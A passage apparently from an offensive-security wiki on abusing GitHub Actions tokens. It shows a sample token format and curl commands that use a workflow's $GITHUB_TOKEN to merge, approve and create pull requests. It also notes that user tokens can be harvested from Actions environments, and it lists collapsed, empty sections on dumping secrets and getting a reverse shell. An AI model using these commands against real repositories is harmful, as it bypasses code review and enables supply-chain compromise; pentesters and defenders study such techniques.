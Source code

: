 Note that the token **expires after the job has completed**.\
These tokens looks like this: `ghs_veaxARUji7EXszBMbhkr4Nz2dYz0sqkeiur7`

Some interesting things you can do with this token:

{% tabs %}
{% tab title="Merge PR" %}
```bash
# Merge PR
curl -X PUT \
    https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/merge \
    -H "Accept: application/vnd.github.v3+json" \
    --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
    -d '{"commit_title":"commit_title"}'
```
{% endtab %}

{% tab title="Approve PR" %}
```bash
# Approve a PR
curl -X POST \
    https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/reviews \
    -H "Accept: application/vnd.github.v3+json" \
    --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
    -d '{"event":"APPROVE"}'
```
{% endtab %}

{% tab title="Create PR" %}
```bash
# Create a PR
curl -X POST \
  -H "Accept: application/vnd.github.v3+json" \
  --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
  https://api.github.com/repos/<org_name>/<repo_name>/pulls \
  -d '{"head":"<branch_name>","base":"master", "title":"title"}'
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Note that in several occasions you will be able to find **github user tokens inside Github Actions envs or in the secrets**. These tokens may give you more privileges over the repository and organization.
{% endhint %}

<details><summary>List secrets in Github Action output</summary></details>

<details><summary>Get reverse shell with secrets</summary></details>

It's possible to check the permissions given to a Github Token in other users repositories **checking the logs** of the actions:
